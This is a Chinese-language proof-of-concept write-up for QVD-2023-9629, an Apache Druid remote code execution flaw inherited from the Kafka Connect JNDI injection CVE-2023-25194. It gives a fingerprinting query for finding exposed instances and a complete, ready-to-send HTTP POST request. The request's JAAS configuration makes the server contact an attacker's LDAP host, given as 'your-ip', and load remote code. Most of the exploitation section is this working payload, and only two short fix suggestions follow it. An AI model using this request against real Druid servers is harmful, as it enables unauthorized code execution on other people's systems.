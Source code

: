 # 

# Apache Druid 远程代码执行漏洞 QVD-2023-9629

## 漏洞描述

该漏洞源于 Apache Kafka Connect JNDI 注入漏洞（CVE-2023-25194），Apache Druid 由于支持从 Kafka 加载数据，刚好满足其利用条件，攻击者可通过修改Kafka 连接配置属性进行 JNDI 注入攻击，进而在服务端执行任意恶意代码。

## 漏洞影响

```
Apache Druid <= 25.0.0
```

## 网络测绘

```
title="Apache Druid"
```

## 漏洞复现

访问漏洞环境，点击 Load data -> Streaming，进入页面后点击 Apache Kafka -> Connect data：

![image-20230801093324881](images/image-20230801093324881.png)

在 Bootstrap servers 和 Topic 处填入任意字符，点击 Apply，抓包。

poc：

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 1437
Connection: close

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"1.1.1.1:9092",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://your-ip\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"any",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

修改请求包，user.provider.url 处填写你的 ldap 服务 url。

利用 DNSLog 验证漏洞是否存在。

## 修复建议

- 避免 Apache Druid 开放至公网。
- 开启身份认证机制,可参考官方文档：https://druid.apache.org/docs/latest/development/extensions-core/druid-basic-security.html


